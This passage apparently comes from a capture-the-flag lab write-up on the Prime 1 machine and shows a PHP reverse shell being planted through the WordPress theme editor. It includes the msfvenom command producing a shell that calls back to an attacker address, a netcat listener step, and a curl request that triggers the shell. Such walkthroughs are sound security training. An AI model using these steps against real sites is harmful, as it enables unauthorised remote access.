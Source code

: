 Then trying tu upload a php reverse shell in the theme editor, I find the secret.php file which is the only one with write permissions.

**Appearance -> Theme Editor -> secret.php**

![](/assets/images/prime1/screenshot-7.png)

I generate a php reverse shell with msfvenom, then inject it into the secret.php file and save it hitting the **Update File** button.

```console
root@kali:~$ msfvenom -p php/reverse_perl LHOST=192.168.179.1 LPORT=443 -o shell.php
```

![](/assets/images/prime1/screenshot-8.png)

Later set up a netcat listener on port 443 and request with curl the secret.php file, giving us a reverse shell, as shown below:

```console
root@kali:~$ curl http://192.168.179.134/wordpress/wp-content/themes/twentynineteen/secret.php
```
